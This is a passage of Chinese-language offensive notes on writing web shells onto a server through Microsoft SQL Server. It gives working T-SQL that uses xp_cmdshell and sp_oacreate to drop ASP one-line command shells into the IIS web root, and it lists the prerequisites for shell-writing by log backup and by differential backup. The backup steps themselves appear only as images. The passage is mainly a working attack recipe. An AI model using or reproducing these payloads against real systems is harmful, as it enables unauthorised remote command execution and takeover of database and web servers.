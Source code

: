 1. xp_cmdshell

   ```mssql
   EXEC master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpub\wwwroot\shell.asp';
   ```

2. sp_oacreate

   ```mssql
   declare @o int,@f int,@t int,@ret int
   EXEC sp_oacreate 'scripting.filesystemobject',@o OUT
   EXEC sp_oamethod @o,'createtextfile',@f OUT,'c:\inetpub\wwwroot\shell.asp',1
   EXEC @ret=sp_oamethod @f,'writeline',NULL,'^<%execute(request("cmd"))%^>'
   ```

3. 本地存储过程CLR’

   ```
   直接利用sharpSQLTools执行命令写shell进行利用
   ```

###### ②log备份写shell

1. 优点

   1. 重复性好，多次备份的成功率高
   2. 相对于差异备份而言，shell的体积小

2. 利用条件

   1. 至少DBO权限，默认SA满足
   2. 知道绝对路径且目录可写
   3. 站库不分离，数据库和网站在同一台服务器
   4. 数据库必须被备份过一次

3. 操作

   ![log日志备份](http://113.45.142.235:9001/laffrex/pictures/差异备份.png)

###### ③差异备份写shell

1. 特点

   1. 容错率较差，条件相对苛刻

2. 利用条件

   1. 至少DBO权限
   2. 知道绝对路径且目录可写
   3. HTTP 500错误不是自定义
   4. 站库不分离，数据库中不能存在%
   5. 数据量不能太大

3. 操作

   ![差异备份](http://113.45.142.235:9001/laffrex/pictures/%E5%B7%AE%E5%BC%82%E5%A4%87%E4%BB%BD.png)